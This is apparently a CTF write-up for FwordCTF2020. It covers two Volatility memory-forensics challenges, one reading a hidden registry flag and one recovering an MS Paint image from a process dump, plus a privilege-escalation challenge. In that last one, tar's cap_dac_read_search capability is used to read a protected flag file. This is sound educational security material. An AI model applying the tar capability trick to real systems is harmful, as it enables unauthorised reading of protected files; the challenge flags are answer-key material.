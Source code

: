 # FwordCTF2020

Writeup for interesting lessons in FwordCTF2020.

## Memory 4
### Tags: Memory Forensics, Volatility, Memory Dump, Registry, Subkey, Key, Value, Hive, Windows 7

I didn't do the previous Memory challenge because it was solved by another teammate.

[Volatility](https://github.com/volatilityfoundation/volatility) is a great tool for memory forensics, it has many modules and commands to explore a memory dump. You should experiment with it if you're just starting in forensics territory. The `imageinfo` command, which spits out the probable OS of the memory dump, gave us info that this is a Windows 7 64-bit. So we're using `Win7SP1x64` profile from now on.

This challenge is pretty tricky, the only clue it gave us only
```
Since i'm a geek, i hide my secrets in weird places
```
That's it. In a computer, where do geeks hid their secrets? It's a pretty vague, I didn't have any clue on what to do. So I see what might a geek do in their computer. Several failed attempts, I discovered a `printkey` command on Volatility. I naively use the command by entering:
```
python vol.py -f ../../FWord/foren.raw --profile=Win7SP1x64 printkey
```

This command outputs every registry entered to the system and its subkeys. So it printed out all the registry.

```
...
Registry: \Device\HarddiskVolume1\Boot\BCD
Key name: NewStoreRoot (S)
Last updated: 2020-08-26 09:10:18 UTC+0000

Subkeys:
  (S) Description
  (S) Objects

Values:
----------------------------
Registry: \??\C:\Users\SBA_AK\ntuser.dat
Key name: CMI-CreateHive{D43B12B8-09B5-40DB-B4F6-F6DFEB78DAEC} (S)
Last updated: 2020-08-26 09:11:20 UTC+0000

Subkeys:
  (S) AppEvents
  (S) Console
  (S) Control Panel
  (S) Environment
  (S) EUDC
  (S) FLAG
  (S) Identities
  (S) Keyboard Layout
  (S) Network
  (S) Printers
  (S) Software
  (S) System
  (V) Volatile Environment

Values:
----------------------------
Registry: \??\C:\Users\SBA_AK\AppData\Local\Microsoft\Windows\UsrClass.dat
...
```

One particular registry has a FLAG subkey which obviously interesting. So I ran `hivelist` command to get the virtual offset of the registry location to print the subkey value:
```
python vol.py -f ../../FWord/foren.raw --profile=Win7SP1x64 hivelist
```
```
...
0xfffff8a0014da410 0x00000000275c0410 \SystemRoot\System32\Config\SAM
0xfffff8a0033fe410 0x0000000069de6410 \??\C:\Users\SBA_AK\ntuser.dat
0xfffff8a0036e7010 0x0000000069188010 \??\C:\Users\SBA_AK\AppData\Local\Microsoft\Windows\UsrClass.dat
0xfffff8a0038fe280 0x0000000068390280 \??\C:\System Volume Information\Syscache.hve
...
```

Now to print the flag:
```
python vol.py -f ../../FWord/foren.raw --profile=Win7SP1x64 printkey -o 0xfffff8a0033fe410 -K 'FLAG'
```
`-o` for the virtual offset of the registry which we got from `hivelist`, and `-K` to tell which subkey we would like to see the value.
```
Legend: (S) = Stable   (V) = Volatile

----------------------------
Registry: \??\C:\Users\SBA_AK\ntuser.dat
Key name: FLAG (S)
Last updated: 2020-08-25 18:45:05 UTC+0000

Subkeys:

Values:
REG_SZ                        : (S) FwordCTF{hiding_secrets_in_regs}
```
After this solved, it just started to make sense that "Geeks" like to bother up with "registry". Well if you messing with any system you're technically also a "Geek"...

## Memory 5
### Tags: Memory Forensics, Volatility, Memory Dump, MS Paint, Image Recovery from Process, GIMP
```
I'm an artist too, i love painting. I always paint in these dimensions 600x300
```
I solved this before Memory 4 because the MS Paint process looks more interesting than any other process. Seeing various other writeups and tutorial, I think this is the only way I would install GIMP unironically.

Starting up, of course, seeing the process list and get the PID of `mspaint.exe`.

```
python vol.py -f ../../FWord/foren.raw --profile=Win7SP1x64 pslist
```
```
...
0xfffffa8019ac0640 chrome.exe             3992   3700     14      216      1      0 2020-08-26 09:13:33 UTC+0000

0xfffffa8019bf2060 wuauclt.exe            1876    900      3       98      1      0 2020-08-26 09:13:33 UTC+0000

0xfffffa801adeaa40 mspaint.exe            1044   1000      7      133      1      0 2020-08-26 09:20:28 UTC+0000

0xfffffa8019bc0b00 svchost.exe            3284    488      7      110      0      0 2020-08-26 09:20:28 UTC+0000

0xfffffa8019bf7060 DumpIt.exe             1764   1000      2       52      1      1 2020-08-26 09:22:18 UTC+0000
...
```
After that, I dumped the memory for `mspaint.exe` with PID 1044.
```
python vol.py -f ../../FWord/foren.raw --profile=Win7SP1x64 memdump -p 1044 --dump-dir=../../FWord/
```
`-p` is for the PID of the specific process we want which memory to be dumped. If `-p` is not specified, by default it will dump all the process. `--dump-dir` is for the dumping output directory.

Now we have the memory dump, I opened up GIMP. I loaded the dump as `Raw image data`, and set the offset up until there's some image or solid color came up on the preview. Set the width and height to what the description tells us, 600x300. 6 million offset later we got the image.

![gimp image](https://raw.githubusercontent.com/spitfirerxf/FwordCTF2020/master/gimp.png)
It's rotated and mirrored, but hey, if you're doing forensics you should be able to figure it out right?

Flag: `FwordCTF{Paint_Skills_FTW!}`

## CapiCapi
### Tag: Bash, Linux Commands, Privilege Escalation, Getcap
```
user1@0a4af02bcbf8:/home/user1$ ls
flag.txt                                                             <- can't read this due to privilege
user1@0a4af02bcbf8:/home/user1$ cd ..
user1@0a4af02bcbf8:/home$ cd user1/
user1@0a4af02bcbf8:/home/user1$ getcap -r / 2>/dev/null              <- get capabilities of everything in /, excluding errors
/usr/bin/tar = cap_dac_read_search+ep                                <- tar is capable of meddling with files from root by compressing then uncompress it
user1@0a4af02bcbf8:/home/user1$ tar -cvf flag.tar flag.txt           <- so here we go
flag.txt
user1@0a4af02bcbf8:/home/user1$ mkdir res
user1@0a4af02bcbf8:/home/user1$ cd res
user1@0a4af02bcbf8:/home/user1/res$ tar -xvf ../flag.tar
flag.txt
user1@0a4af02bcbf8:/home/user1/res$ ls
flag.txt
user1@0a4af02bcbf8:/home/user1/res$ cat flag.txt
FwordCTF{C4pAbiLities_4r3_t00_S3Cur3_NaruT0_0nc3_S4id}
user1@0a4af02bcbf8:/home/user1/res$ exit
exit
Connection to capicapi.fword.wtf closed.
```
